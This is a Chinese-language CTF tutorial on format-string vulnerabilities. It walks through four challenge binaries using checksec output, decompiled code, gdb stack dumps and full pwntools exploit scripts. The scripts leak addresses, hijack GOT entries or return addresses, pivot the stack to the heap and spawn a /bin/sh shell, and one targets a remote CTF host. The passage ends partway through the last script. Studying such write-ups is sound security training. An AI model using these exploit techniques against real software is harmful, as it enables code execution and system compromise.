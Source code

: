 ..

格式化字符串漏洞例子
====================

下面会介绍一些CTF中的格式化漏洞的题目。也都是格式化字符串常见的利用。

64位程序格式化字符串漏洞
&&&&&&&&&&&&&&&&&&&&&&&&&

原理
----

其实64位的偏移计算和32位类似，都是算对应的参数。只不过64位函数的前6个参数是存储在相应的寄存器中的。那么在格式化字符串漏洞中呢？虽然我们并没有向相应寄存器中放入数据，但是程序依旧会按照格式化字符串的相应格式对其进行解析。

例子
----

这里，我们以2017年的UIUCTF中pwn200
GoodLuck为例进行介绍。这里由于只有本地环境，所以我在本地设置了一个flag.txt文件。

确定保护
~~~~~~~~

.. code:: shell

    ➜  2017-UIUCTF-pwn200-GoodLuck git:(master) ✗ checksec goodluck
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

可以看出程序开启了NX保护以及部分RELRO保护。

分析程序
~~~~~~~~

可以发现，程序的漏洞很明显

.. code:: c

      for ( j = 0; j <= 21; ++j )
      {
        v5 = format[j];
        if ( !v5 || v11[j] != v5 )
        {
          puts("You answered:");
          printf(format);
          puts("\nBut that was totally wrong lol get rekt");
          fflush(_bss_start);
          result = 0;
          goto LABEL_11;
        }
      }

确定偏移
~~~~~~~~

我们在printf处下偏移如下,这里只关注代码部分与栈部分。

.. code:: shell

    gef➤  b printf
    Breakpoint 1 at 0x400640
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/2017-UIUCTF-pwn200-GoodLuck/goodluck 
    what's the flag
    123456
    You answered:

    Breakpoint 1, __printf (format=0x602830 "123456") at printf.c:28
    28  printf.c: 没有那个文件或目录.

    ─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
       0x7ffff7a627f7 <fprintf+135>    add    rsp, 0xd8
       0x7ffff7a627fe <fprintf+142>    ret    
       0x7ffff7a627ff                  nop    
     → 0x7ffff7a62800 <printf+0>       sub    rsp, 0xd8
       0x7ffff7a62807 <printf+7>       test   al, al
       0x7ffff7a62809 <printf+9>       mov    QWORD PTR [rsp+0x28], rsi
       0x7ffff7a6280e <printf+14>      mov    QWORD PTR [rsp+0x30], rdx
    ───────────────────────────────────────────────────────────────────────[ stack ]────
    ['0x7fffffffdb08', 'l8']
    8
    0x00007fffffffdb08│+0x00: 0x0000000000400890  →  <main+234> mov edi, 0x4009b8    ← $rsp
    0x00007fffffffdb10│+0x08: 0x0000000031000001
    0x00007fffffffdb18│+0x10: 0x0000000000602830  →  0x0000363534333231 ("123456"?)
    0x00007fffffffdb20│+0x18: 0x0000000000602010  →  "You answered:\ng"
    0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"
    0x00007fffffffdb30│+0x28: "flag{11111111111111111"
    0x00007fffffffdb38│+0x30: "11111111111111"
    0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)
    ──────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")
    [#1] 0x400890 → Name: main()
    ─────────────────────────────────────────────────────────────────────────────────────────────────

可以看到flag对应的栈上的偏移为5，除去对应的第一行为返回地址外，其偏移为4。此外，由于这是一个64位程序，所以前6个参数存在在对应的寄存器中，fmt字符串存储在RDI寄存器中，所以fmt字符串对应的地址的偏移为10。而fmt字符串中%order$s对应的order为fmt字符串后面的参数的顺序，所以我们只需要输入%9$s即可得到flag的内容。当然，我们还有更简单的方法利用https://github.com/scwuaptx/Pwngdb中的fmtarg来判断某个参数的偏移。

.. code:: shell

    gef➤  fmtarg 0x00007fffffffdb28
    The index of format argument : 10

需要注意的是我们必须break在printf处。

利用程序
~~~~~~~~

.. code:: python

    from pwn import *
    from LibcSearcher import *
    goodluck = ELF('./goodluck')
    if args['REMOTE']:
        sh = remote('pwn.sniperoj.cn', 30017)
    else:
        sh = process('./goodluck')
    payload = "%9$s"
    print payload
    #gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

hijack GOT
&&&&&&&&&&&&&&&&&&&&

原理
----

在目前的C程序中，libc中的函数都是通过GOT表来跳转的。此外，在
没有开启RELRO保护的前提下，每个libc的函数对应的GOT表项是可以被修改的。因此，我们可以修改某个libc函数的GOT表内容为另一个libc函数的地址来实现对程序的控制。比如说我们可以修改printf的got表项内容为system函数的地址。从而，程序在执行printf的时候实际执行的是system函数。

假设我们将函数A的地址覆盖为函数B的地址，那么这一攻击技巧可以分为以下步骤

-  确定函数A的GOT表地址。

-  这一步我们利用的函数A一般在程序中已有，所以可以采用简单的寻找地址的方法来找。

-  确定函数B的内存地址

-  这一步通常来说，需要我们自己想办法来泄露对应函数B的地址。

-  将函数B的内存地址写入到函数A的GOT表地址处。

-  这一步一般来说需要我们利用函数的漏洞来进行触发。一般利用方法有如下两种

   -  写入函数：write函数。
   -  ROP

   .. code:: text

       pop eax; ret;           # printf@got -> eax
       pop ebx; ret;           # (addr_offset = system_addr - printf_addr) -> ebx
       add [eax] ebx; ret;     # [printf@got] = [printf@got] + addr_offset

   -  格式化字符串任意地址写

例子
----

这里我们以2016 CCTF中的pwn3为例进行介绍。

确定保护
~~~~~~~~

如下

.. code:: shell

    ➜  2016-CCTF-pwn3 git:(master) ✗ checksec pwn3 
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出程序主要开启了NX保护。我们一般默认远程都是开启ASLR保护的。

分析程序
~~~~~~~~

首先分析程序，可以发现程序似乎主要实现了一个需密码登录的ftp，具有get，put，dir三个基本功能。大概浏览一下每个功能的代码，发现在get功能中存在格式化字符串漏洞

.. code:: c

    int get_file()
    {
      char dest; // [sp+1Ch] [bp-FCh]@5
      char s1; // [sp+E4h] [bp-34h]@1
      char *i; // [sp+10Ch] [bp-Ch]@3

      printf("enter the file name you want to get:");
      __isoc99_scanf("%40s", &s1);
      if ( !strncmp(&s1, "flag", 4u) )
        puts("too young, too simple");
      for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
      {
        if ( !strcmp(i, &s1) )
        {
          strcpy(&dest, i + 0x28);
          return printf(&dest);
        }
      }
      return printf(&dest);
    }

漏洞利用思路
~~~~~~~~~~~~

既然有了格式化字符串漏洞，那么我们可以确定如下的利用思路

-  绕过密码
-  确定格式化字符串参数偏移
-  利用put@got获取put函数地址，进而获取对应的libc.so的版本，进而获取对应system函数地址。
-  修改puts@got的内容为system的地址。
-  当程序再次执行puts函数的时候，其实执行的是system函数。

漏洞利用程序
~~~~~~~~~~~~

如下

.. code:: python

    from pwn import *
    from LibcSearcher import LibcSearcher
    #context.log_level = 'debug'
    pwn3 = ELF('./pwn3')
    if args['REMOTE']:
        sh = remote('111', 111)
    else:
        sh = process('./pwn3')


    def get(name):
        sh.sendline('get')
        sh.recvuntil('enter the file name you want to get:')
        sh.sendline(name)
        data = sh.recv()
        return data


    def put(name, content):
        sh.sendline('put')
        sh.recvuntil('please enter the name of the file you want to upload:')
        sh.sendline(name)
        sh.recvuntil('then, enter the content:')
        sh.sendline(content)


    def show_dir():
        sh.sendline('dir')


    tmp = 'sysbdmin'
    name = ""
    for i in tmp:
        name += chr(ord(i) - 1)


    # password
    def password():
        sh.recvuntil('Name (ftp.hacker.server:Rainism):')
        sh.sendline(name)


    #password
    password()
    # get the addr of puts
    puts_got = pwn3.got['puts']
    log.success('puts got : ' + hex(puts_got))
    put('1111', '%8$s' + p32(puts_got))
    puts_addr = u32(get('1111')[:4])

    # get addr of system
    libc = LibcSearcher("puts", puts_addr)
    system_offset = libc.dump('system')
    puts_offset = libc.dump('puts')
    system_addr = puts_addr - puts_offset + system_offset
    log.success('system addr : ' + hex(system_addr))

    # modify puts@got, point to system_addr
    payload = fmtstr_payload(7, {puts_got: system_addr})
    put('/bin/sh;', payload)
    sh.recvuntil('ftp>')
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    #gdb.attach(sh)
    sh.sendline('/bin/sh;')

    # system('/bin/sh')
    show_dir()
    sh.interactive()

注意

-  我在获取puts函数地址时使用的偏移是8，这是因为我希望我输出的前4个字节就是puts函数的地址。其实格式化字符串的首地址的偏移是7。
-  这里我利用了pwntools中的fmtstr\_payload函数，比较方便获取我们希望得到的结果，有兴趣的可以查看官方文档尝试。比如这里fmtstr\_payload(7,
   {puts\_got:
   system\_addr})的意思就是，我的格式化字符串的偏移是7，我希望在puts\_got地址处写入system\_addr地址。默认情况下是按照字节来写的。

hijack retaddr
^^^^^^^^^^^^^^^^^^^^

原理
----

很容易理解，我们要利用格式化字符串漏洞来劫持程序的返回地址到我们想要执行的地址。

例子
----

这里我们以三个白帽-pwnme\_k0为例进行分析。

确定保护
~~~~~~~~

.. code:: shell

    ➜  三个白帽-pwnme_k0 git:(master) ✗ checksec pwnme_k0
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

可以看出程序主要开启了NX保护以及Full
RELRO保护。这我们就没有办法修改程序的got表了。

分析程序
~~~~~~~~

简单分析一下，就知道程序似乎主要实现了一个类似账户注册之类的功能，主要有修改查看功能，然后发现在查看功能中发现了格式化字符串漏洞

.. code:: c

    int __usercall sub_400B07@<eax>(char format@<dil>, char formata, __int64 a3, char a4)
    {
      write(0, "Welc0me to sangebaimao!\n", 0x1AuLL);
      printf(&formata, "Welc0me to sangebaimao!\n");
      return printf(&a4 + 4);
    }

其输出的内容为&a4+4。我们回溯一下，发现我们读入的passwrod内容也是

.. code:: c

        v6 = read(0, (char *)&a4 + 4, 0x14uLL);

当然我们还可以发现我们读入的username在距离的password20个字节。

.. code:: c

      puts("Input your username(max lenth:20): ");
      fflush(stdout);
      v8 = read(0, &bufa, 0x14uLL);
      if ( v8 && v8 <= 0x14u )
      {
        puts("Input your password(max lenth:20): ");
        fflush(stdout);
        v6 = read(0, (char *)&a4 + 4, 0x14uLL);
        fflush(stdout);
        *(_QWORD *)buf = bufa;
        *(_QWORD *)(buf + 8) = a3;
        *(_QWORD *)(buf + 16) = a4;

好，这就差不多了。此外，也可以发现这个账号密码其实没啥配对不配对的。

利用思路
~~~~~~~~

我们最终的目的是希望可以获得系统的shell，可以发现在给定的文件中，在00000000004008A6地址处有一个直接调用system('bin/sh')的函数（关于这个的发现，一般都会现在程序大致看一下。）。那如果我们修改某个函数的返回地址为这个地址，那就相当于获得了shell。

虽然存储返回地址的内存本身是动态变化的，但是其相对于rbp的地址并不会改变，所以我们可以使用相对地址来计算。利用思路如下

-  确定偏移
-  获取函数的rbp与返回地址
-  根据相对偏移获取存储返回地址的地址
-  将执行system函数调用的地址写入到存储返回地址的地址。

确定偏移
~~~~~~~~

首先，我们先来确定一下偏移。输入用户名aaaaaaaa，密码随便输入，断点下在输出密码的那个printf(&a4
+ 4)函数处

.. code:: text

    Register Account first!
    Input your username(max lenth:20): 
    aaaaaaaa
    Input your password(max lenth:20): 
    %p%p%p%p%p%p%p%p%p%p
    Register Success!!
    1.Sh0w Account Infomation!
    2.Ed1t Account Inf0mation!
    3.QUit sangebaimao:(
    >error options
    1.Sh0w Account Infomation!
    2.Ed1t Account Inf0mation!
    3.QUit sangebaimao:(
    >1
    ...

此时栈的情况为

.. code:: text

    ─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
         0x400b1a                  call   0x400758
         0x400b1f                  lea    rdi, [rbp+0x10]
         0x400b23                  mov    eax, 0x0
     →   0x400b28                  call   0x400770
       ↳    0x400770                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc0
            0x400776                  xchg   ax, ax
            0x400778                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc8
            0x40077e                  xchg   ax, ax
    ────────────────────────────────────────────────────────────────────[ stack ]────
    0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15     ← $rsp, $rbp
    0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
    0x00007fffffffdb50│+0x10: "aaaaaaaa"     ← $rdi
    0x00007fffffffdb58│+0x18: 0x000000000000000a
    0x00007fffffffdb60│+0x20: 0x7025702500000000
    0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
    0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
    0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2

可以发现我们输入的用户名在栈上第三个位置，那么除去本身格式化字符串的位置，其偏移为为5+3=8。

修改地址
~~~~~~~~

我们再仔细观察下断点处栈的信息

.. code:: text

    0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15     ← $rsp, $rbp
    0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
    0x00007fffffffdb50│+0x10: "aaaaaaaa"     ← $rdi
    0x00007fffffffdb58│+0x18: 0x000000000000000a
    0x00007fffffffdb60│+0x20: 0x7025702500000000
    0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
    0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
    0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2

可以看到栈上第二个位置存储的就是该函数的返回地址(其实也就是调用showaccounth函数时执行push
rip所存储的值)，在格式化字符串中的偏移为7。

与此同时栈上，第一个元素存储的也就是上一个函数的rbp。所以我们可以得到偏移0x00007fffffffdb80-0x00007fffffffdb48=0x38。继而如果我们知道了rbp的数值，就知道了函数返回地址的地址。

0x0000000000400d74与0x00000000004008A6只有低2字节不同，所以我们可以只修改0x00007fffffffdb48开始的2个字节。

利用程序
~~~~~~~~

这里使用data[1:]的原因是当我们split的时候由于起始的是0x，所以会产生‘’字符串，需要跳过。

.. code:: python

    from pwn import *
    from LibcSearcher import *
    pwnme = ELF('./pwnme_k0')
    if args['REMOTE']:
        sh = remote(11, 11)
    else:
        sh = process('./pwnme_k0')
    sh.recvuntil(':\n')
    sh.sendline('a' * 8)
    sh.recvuntil(':\n')
    sh.sendline('%p' * 9)
    sh.recvuntil('>')
    sh.sendline('1')
    sh.recvuntil('a' * 8 + '\n')
    data = sh.recvuntil('1.', drop=True).split('0x')
    print data
    data = data[1:]
    rbp = int(data[5], 16)
    ret_addr = rbp - 0x38
    sh.recvuntil('>')
    sh.sendline('2')
    sh.recvuntil(':\n')
    sh.sendline(p64(ret_addr))
    sh.recvuntil(':\n')
    payload = '%2214d%8$hn'
    sh.sendline(payload)
    sh.recvuntil('>')
    sh.sendline('1')
    sh.interactive()

堆上的格式化字符串漏洞
&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&

原理
----

所谓堆上的格式化字符串指的是格式化字符串本身存储在堆上，这个主要增加了我们获取对应偏移的难度，而一般来说，该格式化字符串都是很有可能被复制到栈上的。

例子
----

这里我们以2015年CSAW中的contacts为例进行介绍。

确定保护
~~~~~~~~

.. code:: shell

    ➜  2015-CSAW-contacts git:(master) ✗ checksec contacts
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出程序不仅开启了NX保护还开启了Canary。

分析程序
~~~~~~~~

简单看看程序，发现程序正如名字所描述的，是一个联系人相关的程序，可以实现创建，修改，删除，打印联系人的信息。而再仔细阅读，可以发现在输入联系人信息的时候存在格式化字符串漏洞。

.. code:: c

    int __cdecl PrintInfo(int a1, int a2, int a3, char *format)
    {
      printf("\tName: %s\n", a1);
      printf("\tLength %u\n", a2);
      printf("\tPhone #: %s\n", a3);
      printf("\tDescription: ");
      return printf(format);
    }

仔细看看，可以发现这个format其实是指向堆中的。

利用思路
~~~~~~~~

我们的基本目的是获取系统的shell，从而拿到flag。其实既然有格式化字符串漏洞，我们应该是可以通过劫持got表或者控制程序返回地址来控制程序流程。但是这里却不怎么可行。原因分别如下

-  之所以不能够劫持got来控制程序流程，是因为我们发现对于程序中常见的可以对于我们给定的字符串输出的只有printf函数，我们只有选择它才可以构造/bin/sh让它执行system('/bin/sh')，但是printf函数在其他地方也均有用到，这样做会使得程序直接崩溃。
-  其次，不能够直接控制程序返回地址来控制程序流程的是因为我们并没有一块可以直接执行的地址来存储我们的内容，同时利用格式化字符串来往栈上直接写入system\_addr+'bbbb'+addr
   of '/bin/sh‘似乎并不现实。

那么我们可以怎么做呢？我们还有之前在栈溢出讲的技巧，stack
privot。而这里，我们可以控制的恰好是堆内存，所以我们可以把栈迁移到堆上去。这里我们通过leave指令来进行栈迁移，所以在迁移之前我们需要修改程序保存ebp的值为我们想要的值。
只有这样在执行leave指令的时候，esp才会成为我们想要的值。同时，因为我们是使用格式化字符串来进行修改，所以我们得知道保存ebp的地址为多少，而这时PrintInfo函数中存储ebp的地址每次都在变化，而我们也无法通过其他方法得知。但是，\ **程序中压入栈中的ebp值其实保存的是上一个函数的保存ebp值的地址**\ ，所以我们可以修改其\ **上层函数的保存的ebp的值，即上上层函数（即main函数）的ebp数值**\ 。这样当上层程序返回时，即实现了将栈迁移到堆的操作。

基本思路如下

-  首先获取system函数的地址
-  通过泄露某个libc函数的地址根据libc
   database确定。
-  构造基本联系人描述为system\_addr+'bbbb'+binsh\_addr
-  修改上层函数保存的ebp(即上上层函数的ebp)为\ **存储system\_addr的地址-4**\ 。
-  当主程序返回时，会有如下操作
-  move esp,ebp，将esp指向system\_addr的地址-4
-  pop ebp， 将esp指向system\_addr
-  ret，将eip指向system\_addr，从而获取shell。

获取相关地址与偏移
~~~~~~~~~~~~~~~~~~

这里我们主要是获取system函数地址、/bin/sh地址，栈上存储联系人描述的地址，以及PrintInfo函数的地址。

首先，我们根据栈上存储的libc\_start\_main\_ret地址(该地址是当main函数执行返回时会运行的函数)来获取system函数地址、/bin/sh地址。我们构造相应的联系人，然后选择输出联系人信息，并将断点下在printf处，并且一直运行到格式化字符串漏洞的printf函数处，如下

.. code:: shell

     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ───────────────────────────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffccfc', 'l8']
    8
    0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
    0xffffcd00│+0x04: 0x0804c420  →  "1234567"
    0xffffcd04│+0x08: 0x0804c410  →  "11111"
    0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
    0xffffcd0c│+0x10: 0x00000000
    0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
    0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
    0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp
    ──────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0xf7e44670 → Name: __printf(format=0x804c420 "1234567\n")
    [#1] 0x8048c27 → leave 
    [#2] 0x8048c99 → add DWORD PTR [ebp-0xc], 0x1
    [#3] 0x80487a2 → jmp 0x80487b3
    [#4] 0xf7e13637 → Name: __libc_start_main(main=0x80486bd, argc=0x1, argv=0xffffce14, init=0x8048df0, fini=0x8048e60, rtld_fini=0xf7fe88a0 <_dl_fini>, stack_end=0xffffce0c)
    [#5] 0x80485e1 → hlt 
    ────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  dereference $esp 140
    ['$esp', '140']
    1
    0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
    gef➤  dereference $esp l140
    ['$esp', 'l140']
    140
    0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
    0xffffcd00│+0x04: 0x0804c420  →  "1234567"
    0xffffcd04│+0x08: 0x0804c410  →  "11111"
    0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
    0xffffcd0c│+0x10: 0x00000000
    0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
    0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
    0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp
    0xffffcd1c│+0x20: 0x08048c99  →   add DWORD PTR [ebp-0xc], 0x1
    0xffffcd20│+0x24: 0x0804b0a8  →  "11111"
    0xffffcd24│+0x28: 0x00002b67 ("g+"?)
    0xffffcd28│+0x2c: 0x0804c410  →  "11111"
    0xffffcd2c│+0x30: 0x0804c420  →  "1234567"
    0xffffcd30│+0x34: 0xf7fadd60  →  0xfbad2887
    0xffffcd34│+0x38: 0x08048ed6  →  0x25007325 ("%s"?)
    0xffffcd38│+0x3c: 0x0804b0a0  →  0x0804c420  →  "1234567"
    0xffffcd3c│+0x40: 0x00000000
    0xffffcd40│+0x44: 0xf7fad000  →  0x001b1db0
    0xffffcd44│+0x48: 0x00000000
    0xffffcd48│+0x4c: 0xffffcd78  →  0x00000000
    0xffffcd4c│+0x50: 0x080487a2  →   jmp 0x80487b3
    0xffffcd50│+0x54: 0x0804b0a0  →  0x0804c420  →  "1234567"
    0xffffcd54│+0x58: 0xffffcd68  →  0x00000004
    0xffffcd58│+0x5c: 0x00000050 ("P"?)
    0xffffcd5c│+0x60: 0x00000000
    0xffffcd60│+0x64: 0xf7fad3dc  →  0xf7fae1e0  →  0x00000000
    0xffffcd64│+0x68: 0x08048288  →  0x00000082
    0xffffcd68│+0x6c: 0x00000004
    0xffffcd6c│+0x70: 0x0000000a
    0xffffcd70│+0x74: 0xf7fad000  →  0x001b1db0
    0xffffcd74│+0x78: 0xf7fad000  →  0x001b1db0
    0xffffcd78│+0x7c: 0x00000000
    0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
    0xffffcd80│+0x84: 0x00000001
    0xffffcd84│+0x88: 0xffffce14  →  0xffffd00d  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/201[...]"
    0xffffcd88│+0x8c: 0xffffce1c  →  0xffffd058  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"

我们可以通过简单的判断可以得到

::

    0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10

存储的就是main相应的地址，同时利用fmtarg来获取对应的偏移，可以看出其偏移为32，那么相对于格式化字符串的偏移为31。

.. code:: shell

    gef➤  fmtarg 0xffffcd7c
    The index of format argument : 32

这样我们便可以得到对应的地址了。进而可以根据libc-database来获取对应的libc，继而获取system函数地址与/bin/sh函数地址了。

其次，我们可以确定栈上存储格式化字符串的地址0xffffcd2c相对于格式化字符串的偏移为6，得到这个是为了构造我们的联系人。

再者，我们可以看出下面的地址保存着上层函数的调用地址，其相对于格式化字符串的偏移为11，这样我们可以直接修改上层函数存储的ebp的值。

.. code:: shell

    0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp

构造联系人获取堆地址
~~~~~~~~~~~~~~~~~~~~

得知上面的信息后，我们可以利用下面的方式获取堆地址与相应的ebp地址。

.. code:: text

    [system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]

来获取对应的相应的地址。后面的bbbb是为了接受字符串方便。

这里因为函数调用时所申请的栈空间与释放的空间是一致的，所以我们得到的ebp地址并不会因为我们再次调用而改变。

修改ebp
~~~~~~~

由于我们需要执行move指令将ebp赋给esp，并还需要执行pop
ebp才会执行ret指令，所以我们需要将ebp修改为存储system地址-4的值。这样pop
ebp之后，esp恰好指向保存system的地址，这时在执行ret指令即可执行system函数。

上面已经得知了我们希望修改的ebp值，而也知道了对应的偏移为11，所以我们可以构造如下的payload来进行修改相应的值。

::

    part1 = (heap_addr - 4) / 2
    part2 = heap_addr - 4 - part1
    payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'

获取shell
~~~~~~~~~

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入5，退出程序即会执行ret指令，就可以获取shell。

利用程序
~~~~~~~~

.. code:: python

    from pwn import *
    from LibcSearcher import *
    contact = ELF('./contacts')
    #context.log_level = 'debug'
    if args['REMOTE']:
        sh = remote(11, 111)
    else:
        sh = process('./contacts')


    def createcontact(name, phone, descrip_len, description):
        sh.recvuntil('>>> ')
        sh.sendline('1')
        sh.recvuntil('Contact info: \n')
        sh.recvuntil('Name: ')
        sh.sendline(name)
        sh.recvuntil('You have 10 numbers\n')
        sh.sendline(phone)
        sh.recvuntil('Length of description: ')
        sh.sendline(descrip_len)
        sh.recvuntil('description:\n\t\t')
        sh.sendline(description)


    def printcontact():
        sh.recvuntil('>>> ')
        sh.sendline('4')
        sh.recvuntil('Contacts:')
        sh.recvuntil('Description: ')


    # get system addr & binsh_addr
    payload = '%31$paaaa'
    createcontact('1111', '1111', '111', payload)
    printcontact()
    libc_start_main_ret = int(sh.recvuntil('aaaa', drop=True), 16)
    log.success('get libc_start_main_ret addr: ' + hex(libc_start_main_ret))
    libc = LibcSearcher('__libc_start_main_ret', libc_start_main_ret)
    libc_base = libc_start_main_ret - libc.dump('__libc_start_main_ret')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('str_bin_sh')
    log.success('get system addr: ' + hex(system_addr))
    log.success('get binsh addr: ' + hex(binsh_addr))
    #gdb.attach(sh)

    # get heap addr and ebp addr
    payload = flat([
        system_addr,
        'bbbb',
        binsh_addr,
        '%6$p%11$pcccc',
    ])
    createcontact('2222', '2222', '222', payload)
    printcontact()
    sh.recvuntil('Description: ')
    data = sh.recvuntil('cccc', drop=True)
    data = data.split('0x')
    print data
    ebp_addr = int(data[1], 16)
    heap_addr = int(data[2], 16)

    # modify ebp
    part1 = (heap_addr - 4) / 2
    part2 = heap_addr - 4 - part1
